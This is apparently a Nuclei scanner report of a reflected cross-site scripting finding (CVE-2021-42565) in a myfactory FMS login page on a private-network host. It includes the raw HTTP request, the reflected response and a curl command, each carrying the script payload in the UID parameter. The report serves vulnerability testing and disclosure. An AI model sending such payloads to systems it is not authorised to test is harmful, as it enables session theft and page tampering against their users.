 ### myfactory FMS  -  Reflected Cross-Site Scripting (CVE-2021-42565) found on http://192.168.198.179:8080/
---
**Details**: **CVE-2021-42565**  matched at http://192.168.198.179:8080/

**Protocol**: HTTP

**Full URL**: http://192.168.198.179:8080/system/login/SysLoginUser.aspx?Login=Denied&UID=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

**Timestamp**: Wed Jun 8 20:22:09 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | myfactory FMS  -  Reflected Cross-Site Scripting |
| Authors | madrobot |
| Tags | cve, cve2021, myfactory, xss |
| Severity | medium |
| Description | myfactory.FMS before 7.1-912 allows cross-site scripting via the UID parameter. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-79](https://cwe.mitre.org/data/definitions/79.html) |
| CVE-ID | [CVE-2021-42565](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-42565) |
| CVSS-Score | 6.10 |

**Request**
```http
GET /system/login/SysLoginUser.aspx?Login=Denied&UID=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: 192.168.198.179:8080
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.3319.102 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.0 200 OK
Connection: close
Content-Length: 238
Content-Type: text/html

<HTML><HEAD><TITLE>File Not Found</TITLE></HEAD><BODY><H1>Cannot find this file.</H1>The requested file: <B>/system/login/SysLoginUser.aspx?Login=Denied&UID=</script><script>alert(document.domain)</script></B> was not found.</BODY></HTML>
```

References: 
- https://nvd.nist.gov/vuln/detail/cve-2021-42565
- https://www.redteam-pentesting.de/en/advisories/rt-sa-2021-001/-cross-site-scripting-in-myfactory-fms
- https://www.redteam-pentesting.de/advisories/rt-sa-2021-001

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.3319.102 Safari/537.36' 'http://192.168.198.179:8080/system/login/SysLoginUser.aspx?Login=Denied&UID=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)